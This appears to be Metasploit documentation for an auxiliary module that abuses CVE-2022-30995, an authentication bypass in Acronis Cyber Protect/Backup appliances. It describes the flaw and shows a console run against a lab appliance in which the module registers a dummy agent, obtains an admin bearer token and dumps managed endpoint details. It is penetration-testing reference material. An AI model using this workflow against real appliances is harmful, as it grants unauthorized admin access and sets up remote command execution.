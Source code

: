 ```msf
  This module exploits an authentication bypass vulnerability at the Acronis Cyber Protect
  appliance which, in its default configuration, allows the anonymous registration of new
  backup/protection agents on new endpoints. This API endpoint also generates bearer tokens
  which the agent then uses to authenticate to the appliance.
  As the management web console is running on the same port as the API for the agents, this
  bearer token is also valid for any actions on the web console. This allows an attacker
  with network access to the appliance to start the registration of a new agent, retrieve
  a bearer token that provides admin access to the available functions in the web console.

  This module will gather all machine info (endpoints) configured and managed by the appliance.
  This information can be used in a subsequent attack that exploits this vulnerability to
  execute arbitrary commands on both the managed endpoint and the appliance.
  This exploit is covered in another module `exploit/multi/acronis_cyber_protect_unauth_rce_cve_2022_3405`.

  Acronis Cyber Protect 15 (Windows, Linux) before build 29486 and
  Acronis Cyber Backup 12.5 (Windows, Linux) before build 16545 are vulnerable.

References:
  https://nvd.nist.gov/vuln/detail/CVE-2022-30995
  https://nvd.nist.gov/vuln/detail/CVE-2022-3405
  https://herolab.usd.de/security-advisories/usd-2022-0008/
  https://attackerkb.com/topics/27RudJXbN4/cve-2022-30995

View the full module info with the info -d command.
```
### Acronis Cyber Backup 12.5 build 14330 VMware appliance
```msf
msf6 auxiliary(gather/acronis_cyber_protect_machine_info_disclosure) > set rhosts 192.168.201.6
rhosts => 192.168.201.6
msf6 auxiliary(gather/acronis_cyber_protect_machine_info_disclosure) > run

[*] Running module against 192.168.201.6
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated.
[*] Retrieve the first access token.
[*] Register a dummy backup agent.
[*] Dummy backup agent registration is successful.
[*] Retrieve the second access token.
[+] Acronis Cyber Protect/Backup 12.5.14330 - VULNERABLE
[*] Retrieve all managed endpoint configuration details registered at the Acronis Cyber Protect/Backup appliance.
[+] Configuration details are successfully saved in json format to /root/.msf4/loot/20241023084506_default_192.168.201.6_acronis.cyber.pr_785289.bin
[*] List the managed endpoints registered at the Acronis Cyber Protect/Backup appliance.
[*] ----------------------------------------
[+] hostId: 28BAFD9F-F9F1-481F-A970-1A6ED70736AC
[+] parentId: phm-group.7C2057CC-8D32-40CA-9B83-4A8E73078F7F.disks
[+] key: phm.0CA16CD4-1C6D-44D2-BEF1-B9F146005EE1@28BAFD9F-F9F1-481F-A970-1A6ED70736AC.disks
[*] type: machine
[*] hostname: WIN-BJDNH44EEDB
[*] IP: 192.168.201.5
[*] OS: Microsoft Windows Server 2019 Standard
[*] ARCH: windows
[*] ONLINE: false
[*] ----------------------------------------
[+] hostId: 345C3F1E-92C3-4E92-8EF8-AC6BF136BB83
[+] parentId: phm-group.7C2057CC-8D32-40CA-9B83-4A8E73078F7F.disks
[+] key: phm.F70D1B08-5097-4CE5-8E22-F9E0DB75401F@345C3F1E-92C3-4E92-8EF8-AC6BF136BB83.disks
[*] type: machine
[*] hostname: AcronisAppliance-AC319
[*] IP: 192.168.201.6
```